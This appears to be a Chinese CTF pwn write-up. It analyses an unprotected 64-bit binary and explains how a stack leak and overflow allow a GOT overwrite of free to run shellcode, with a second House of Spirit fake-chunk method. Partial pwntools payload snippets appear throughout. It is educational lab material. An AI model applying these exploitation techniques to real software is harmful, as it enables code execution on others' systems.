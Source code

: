 # 入手
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE
```
各种保护都没开

#程序流程

## 1.输入name
```
for(int i=0;i<=47;i++)
    read(0,name,1);
```
但是这个时候栈是<br>
- (low)
- i         
- ret_val
- name_str
- rbp     
- (high)<br>
如果把name_str填满 就能够在printf的时候打印出栈内保持的ebp 然后算出可以使用的栈地址<br>
## 2.输入id 
```
for(int i=0;i<=3;i++)
    read(0, buf_tmp, 1);
```
限制数字0-9 读入后转换为整数<br>
## 3."give me money~"
```
read(0,buf,0x40);
strcpy (buf_mal, buf);
```
buf_mal是malloc申请的(预计是堆溢出)<br>
然后由全局指针(ptr)来指向这个空间<br>
到这里乍一看好像没什么问题<br>
仔细一点就发现有栈溢出，可以覆盖buf_mal地址
```
buf= byte ptr -40h
dest= qword ptr -8
```
这里直接把堆的地址覆盖成got里free的地址<br>
然后strcpy的时候把free的地址改成shellcode的地址

## 4.分支选择

### choice 1:
限制在0,0x80<br>
ptr = malloc(0x80)<br>
ptr 指向输入的money<br>
上面可以看到之前申请的空间没有释放<br>
最后然后输出之前输入的内容<br>
### choice 2:
test ptr是不是0<br>
0 : 直接输出"havn't check in"然后返回<br>
1 : 释放ptr<br>

### choice 3:
直接返回<br>
### 其他
提示不合法<br>

# 突破点
在choice1 和 choice2那里<br>
开始ptr先有0x40的空间<br>

## 方法

## 1.就是利用strcpy修改got表中free的地址到shellcode地址
然后free
```
# 关键1
shellcode + 'A'*(0x30-len(shellcode))
# 关键2
payload = p64(stack_addr) + 'A'*0x30 + p64(free_got)
# 完成
p.recvuntil('choice : ')
p.send('2\n')
```
第一个就是泄露出栈内ebp的值 然后算出name_str的地址<br>
第二个就是把chunk地址覆盖成got表的free地址 然后利用strcpy把这个地址覆盖成刚刚活动的name_str地址(存放shellcode了) 然后调用free<br>

## 2.THE HOUSE OF SPIRIT
studying
需要构造合适的mem<br>
```
p.recvuntil('money~')
fake_chunk = 'A'*0x8
fake_chunk += p64(0x61)
fake_chunk += 'A'*0x28
fake_chunk += p64(stack_addr)
p.send(fake_chunk)
```
这里stack_addr调整到了刚刚好是0x61的后面的位置，所以0x61就作为这个mem的size了<br>
关于next_size 由于之前要求输入id 并且这个id值保存在比stack_addr指向的位置高的地方，所以0x61就是根据这个确定的(0x60+1 1是标志位)<br>
***next_size有约束条件***
```
if(chunk_at_offset(p, size)->size <= 2*SIZE_SZ || \
_builtin_expect(chunksize)(chunk_at_offset(p,size) >= av->system_mem,0))
{
    errstr = "free(): invalid next size fast";
    goto errout;
}
```
2*SIZE_SZ < next_size < system_max_mem
```
p.recvuntil('id ~~?')
p.sendline(str(0x20))
```

这样构造之后进行free就会让刚刚构造的mem加入fastbin中<br>
然后调用malloc就又把刚刚的mem中chunk的地址返回给我们，利用返回的值，然后覆盖到某个rsp，最后跳出循环，就能执行shell了。<br>

# Tips
1. 内存泄漏
2. 堆地址覆盖
3. 栈偏移固定
4. 利用了两个可控的位置作为size+8和next_size构造house of spirit

